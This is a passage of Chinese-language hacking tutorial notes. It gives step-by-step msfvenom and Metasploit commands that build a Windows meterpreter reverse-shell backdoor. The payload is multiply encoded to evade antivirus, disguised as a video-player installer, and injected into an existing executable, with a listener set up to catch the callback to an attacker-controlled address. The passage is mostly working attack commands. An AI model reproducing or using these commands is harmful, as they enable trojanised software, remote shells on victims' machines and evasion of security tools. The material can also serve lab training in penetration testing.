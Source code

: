 	
	
3. 生成后门程序
	```shell
	# 使用一个编码器
	msfvenom # 工具
		-a x86 # 指定架构
		--platform windows # 指定平台
		-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
		-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
		-e x86/shikata_ga_nai # 指定编码器，面杀
		-i 10 # 指定编码次数
		-f exe # 指定输出文件格式
		-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
		
	# 使用两个编码器
	msfvenom # 工具
		-a x86 # 指定架构
		--platform windows # 指定平台
		-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
		-b "\x00" # 去掉坏字符
		-e x86/shikata_ga_nai   # 指定编码器，面杀
		-i 20 # 指定编码次数
		| # 连接符
		msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 # 第二个编码器
		-f exe # 指定输出文件格式
		-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
	```

4. 使用 MSF 监听
	```shell
	use exploit/multi/handler  # 设置模块
		set payload windows/meterpreter/reverse_tcp # 设置 payload
		set lhost 192.168.18.143  # 与生成木马的地址一样
		run  # 执行
			# 查看获取的权限，进行提权
	```

5. 模拟黑客给软件加后门：
	在 .exe 文件中注入后门。
	注入思路： 先看主程序附加了那些小程序，在小程序上面进行添加 payload 

	```shell
	# 使用 kaill 工具给附加小程序添加 payload  
	msfvenom # 工具
		-a x86 # 指定架构
		--platform windows # 指定平台
		-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
		-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
		-e x86/shikata_ga_nai # 指定编码器，面杀
		-i 10 # 指定编码次数
		-x  1.exe  # 要植入后门的文件
		-f exe # 指定输出文件格式
		-o /ver/www/html/1.exe  # 文件输出位置
	```
